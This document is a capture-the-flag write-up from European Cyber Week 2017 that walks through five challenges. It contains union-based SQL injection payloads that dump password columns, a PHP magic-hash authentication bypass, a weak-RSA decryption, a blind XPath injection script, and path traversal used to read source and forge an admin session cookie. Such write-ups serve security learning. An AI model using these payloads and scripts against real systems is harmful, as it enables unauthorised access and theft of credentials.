

# European Cyber Week (2017)

## Hall of fame (50 points)

### We are given a webpage with a filter form. Looking at robots.txt, HTTP headers, source  code, etc. reveals nothing in particular.


### So the first thing that comes to my mind is SQL injection. Let's try to inject a simple Boolean Based SQLi payload.

```
' or 1=1; -- -
```


### Aha! Looks like the backend is not escaping SQL code. We can also see that there's no need to tamper with the payload because there's no WAF/IDS. This challenge should be over pretty soon. Now let's try to inject an Union Based SQLi payload.

```
' union all select 1,2,3,4,5,6;-- -
```


### After playing around with several column counts, it looks like 3, 4 and 5 can be used to extract data from the database. Let's use the 4th column to extract the current database schema. I'm asuming the database management system is MySQL or MariaDB. If that was not the case then I would try to find out which one is running by injection specific payloads (for instance, select sys_context('userenv', 'current_schema') from dual, in case of Oracle). 

```
' union all select 1,2,3,database(),5,6;-- -
```


### Good, now we know that the database schema is called "ecw". Let us grab all the tables in this database schema next.

```
' union all select 1,2,3,group_concat(table_name),5,6 FROM information_schema.tables where table_schema LIKE '%ecw%';-- -
```


### Awesome, there's a table called users! Let's fetch all the columns for this table.

```
' union all select 1,2,3,4,group_concat(column_name),6 FROM information_schema.columns where table_schema LIKE '%ecw%' and table_name LIKE '%users%';-- -
```


### Hmm, the password field looks very promising. Could the flag be waiting for us there? Let's find out!

```
' union all select 1,2,3,4,group_concat(password),6 FROM ecw.users;-- -
```


### And finally, there's our flag! Or should I say, flags? For some reason there were multiple rows in this table, so multiple possible flags. After trying out the first few it seems that the 3rd one is the correct one. We're collecting our points and heading to the next challenge!

## Magic Car (175 points)

### One more web challenge. This time we have to bypass an authentication mechanism it seems.


### However, they were kind enough to give us the source code which is written in PHP. We will see in a minute that keeping this in mind is very important in order to solve this challenge. The source code reads as follow.



### We can see that the username and password are concatenated and the md5 hash is compared to a hardcoded value. If both values are equals, we get the flag. There's two things to note here. First, the comparison is not strict ("==" instead of "===") which means that the types are not checked. Second, the hardcoded value starts with "0e" which is scientific notation in PHP. This challenge is an excellent example of making use of PHP's type jiggling functionality to bypass authentication. We can compute a md5 hash which is "equal" (not strict) to the hardcoded value. How? If we can compute a hash that starts with the scientific notation and has as many digits as the hardcoded value, the comparison will result in true. Let's write a Python script for this.

```python
import hashlib

i = 0
while True:
    calc = hashlib.md5(str(i)).hexdigest()
    if calc[0:2] == '0e' and calc[2:].isdigit():
        print 'FOUND IT ' + str(i)
        break
    i = i + 1
```

### We let this script run for a while (in fact, for over 240 million computed hashes) and we get a possible value: 240610708. We use this value as username and we collect the flag!


## Prime time (200 points)

### After doing some web challenges, I though why not try the crypto challenges? This one seemed quite interesting because not so many people were able to solve it.


### We're given a public key and cipher text. This seems to be related to asymmetric encryption. Let's first inpect the modulus and exponent of the public key.


### This key looks very weak. The value e (which is related to the exponent of the public key in RSA) is small and the key length is only 1023 bit. This key was probably already factorized. Let's get the decimal value from the hex modulus first using the Python CLI.

```python
int("7BF627FCDE687978281C5CA76BE5EDF563B07FE0084289585F5B39DFA857C5A6EE2793151111882E67368F95012A86664C2C88B62D3045E27102D1CB4F0A17F7F4A65C6B3A555BE8775D8B5560DCBE8189E7294A401E90B566CEB19E3E043FB7E30CE41C60F2453C55FA3CF48B37BF50A7BEBD4EAC407600AFF4602E0A4D7B53", 16)

```

### Use this result to try and factorize p and q via http://factordb.com/.


### Hm, no factors found. Maybe there's just an "easier" way to solve this? Let's try to recover the private key using different attacks on this public key with https://github.com/Ganapati/RsaCtfTool.


### Good, we were able to craft the private key due to the weakness of the public key. Now we can decrypt the cipher text with a simple Python script.

```python
from Crypto.PublicKey import RSA
from base64 import b64decode

def decrypt_RSA(privkey, message):
    key = open(privkey, "r").read()
    rsakey = RSA.importKey(key)
    return rsakey.decrypt(b64decode(message))

message = "FfXkKYsoDSSvtVTeF6ksmpEvDy7lV67hhLMlDzqfayPthOizHokUOvXxfO2o6wvEXJKXqathITTZ0TQB3fhs876z4nragqfcF9nfen2lDPu6g12sTdOmuUqrTCqBFuy88fT1ww4gtBxiivpPQRJ9BM87NyNtAWmr7katR9LgWcw="

print decrypt_RSA('privkey.pem', message)

```

### We execute this script and we get the plain text.

```
Good! The flag is: ECW{4305d233c9a0cc4a2dd431ab54b9f796}.
```

## Path through (100 points)

### We're presented with another web challenge. This time the name of the challenge gives us a clear hint: we will probably be exploiting XPath.


### Let's first try a simple payload in order to make sure this challenge is about XPath.


```
' or '1' = '1
```


### Yes! XPath injection is possible here. This challenge will be harder though, we cannot retrieve/extract data as easily. The web page does not show us any information except for authentication success/failure. In other words, we have to go "blind" here. I wrote a Blind XPath injection script in PHP to solve this challenge. The script basically checks all positions in the password for any ASCII characters.

```php
<?php

function getCommand($position, $char) {
    return "curl -sS 'https://challenge-ecw.fr/chals/web100' -H 'Cookie: session=mySession' -H 'Origin: https://challenge-ecw.fr' -H 'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: en-US,en;q=0.8' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.91 Safari/537.36' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8' -H 'Cache-Control: max-age=0' -H 'Referer: https://challenge-ecw.fr/chals/web100' -H 'Connection: keep-alive' --data 'username=admin&password=%27+or+substring%28password%2C" . $position . "%2C1%29%3D%27" . $char . "&nonce=6f9fa8ac0bceed95b08a718f0042852bcbaca3f8d8448bc656a865498c7754a35fdeb41ddd30dc977e6e5c3b1d2a70815cf545f6d7dfc48e5e930815abd1a8cc' --compressed --insecure";
}

$flag = "";

foreach (range(1, 100) as $i) {
    for ($j = 47; $j < 127; $j++) {
        $char = chr($j);

        echo "Trying character: " . $char . " at position: " . $i . PHP_EOL;

        $cmd = getCommand($i, $char);

        $result = shell_exec($cmd);

        if (strpos($result, "Successful authentication. The account password is the flag.")) {
            $flag .= $char;
            break;
        }
    }

    echo "Position: " . $i . ", current flag: " . $flag . PHP_EOL;

    if (strpos($flag, "}")) {
        break;
    }
}
```

### Since we're facing a Blind XPath vulnerability, we can only ask "yes/no" questions using, for instance, substr with specific positions.

```
' or substring(password,1,1)='A 
' or substring(password,1,1)='B
' or substring(password,1,1)='C // correct! move up the position to 2
' or substring(password,2,1)='A 
' or substring(password,2,1)='B
etc...
```

### If we get a success authentication message for a specific character in a specific position, we move up the position and try to guess the next character, and so on. Let this script run for a while and we can collect the flag. 


## Goldfish PostIt (150 points)

### This is the last web challange of the event. Let's look at the website.


### There's a login and registration page. After trying out several techniques (XSS, SQLi, XPath, etc) without success I decided to create an account and sign in. Let's inspect the generated session cookie.

```
279_gyjpoqFtBXL0jdimhUWv3HNThxzEjvQoy1BFB%2Bvp5uBBMMsJGNzzgccV98FQ9LPtHNXC8Cz3qptCGOpUhKTgKg%3D%3D
```

### This strings look URL encoded. Let's decode it.

```
279_gyjpoqFtBXL0jdimhUWv3HNThxzEjvQoy1BFB+vp5uBBMMsJGNzzgccV98FQ9LPtHNXC8Cz3qptCGOpUhKTgKg==
```

### Now it looks like base 64 encoding. Let's also decode it.

```
(颡mrئEsSĎ(PEA0	P,BT*
```

### This looks like gibberish. It's probably a cipher text. It's not possible to decrypt this without more knowledge of the crypto primitive. At this point we're not sure this challenge is about cookie injection so let's look further at the other pages. One of the other pages is for creating a post its.


### Interesting, we can't create a post it twice with the same title. Also note that the error contains a path ("posts/sdfsdfsdfsdf/test"). The web application creates the post it on the file system of the server. Here "sdfsdfsdfsdf" is the username I used to create the account. Let's try to navigate the filesystem using common paths like /etc/passwd. Unfortunately the application cannot access any of the paths except for /var/www/html/goldfish/posts/*. However, we can access our own post it.


### After trying out different paths I also found the (possible) flag file.


### At this point I tried to inject a PHP shell (I knew the server supported PHP because of index.php). Unfortunately the web application escapes PHP code.


### I succeeded to bypass the filter with comment tags but it seemed that PHP was not enabled on the post it files. At this point I was stuck and didn't know how to procceed.

### The day later I tried again from the beginning and went on to create multiple post it. This is when I noticed that, despite the error message, post its were still created even if the file already existed.


### This was in fact the 2nd post it I created, but the content of the 1st post it is being dispayed (because of the collision with the title attribute, which is also the name of the file created on the filesystem). So if we create a post it with a title of "./../../index.php" we might be able to grab the content of the index file? Let's try it out.


### And it works! I grabbed all the files I found in the includes and concatenated all the code needed to craft a cookie.

```php
<?php

function generateKey($pKey) {
    if ($pKey == null || strlen($pKey) == 0) return null;

    $s = '';

    while (strlen($s) < 1000) $s .= $pKey;

    $e1 = 2;
    $e2 = 3;
    $r = '';

    for ($i = 0 ; $i < 12 ; $i++) {
        $e2 += $e1;
        $e1 = $e2 - $e1;
        $r .= $s[$e2];
    }

    return pack('H*', md5($r));
}

function encryptString($pText) {
    $key = generateKey($pText);

    $iv = mcrypt_create_iv(mcrypt_get_iv_size(MCRYPT_RIJNDAEL_256, MCRYPT_MODE_CBC), MCRYPT_RAND);

    return base64_encode($iv . mcrypt_encrypt(MCRYPT_RIJNDAEL_256, $key, $pText, MCRYPT_MODE_CBC, $iv));
}

function decryptString($pText, $pKey) {
    $key = generateKey($pKey);

    $text = base64_decode($pText);

    $iv_size = mcrypt_get_iv_size(MCRYPT_RIJNDAEL_256, MCRYPT_MODE_CBC);

    $iv = substr($text, 0, $iv_size); $ciphertext = substr($text, $iv_size);

    $plain = mcrypt_decrypt(MCRYPT_RIJNDAEL_256, $key, $ciphertext, MCRYPT_MODE_CBC, $iv);

    return rtrim($plain, "\0");
}

function generateHash($pPass) {
    $salt = 'uH39*z_f-D48w';
    
    return hash('sha256', $salt . hash('sha256', $pPass));
}

$content = '1_' . encryptString('admin');

echo "Crafted cookie: " . $content;
```

### After crafting a cookie for the admin, I navigated to the website and the flag was waiting there.


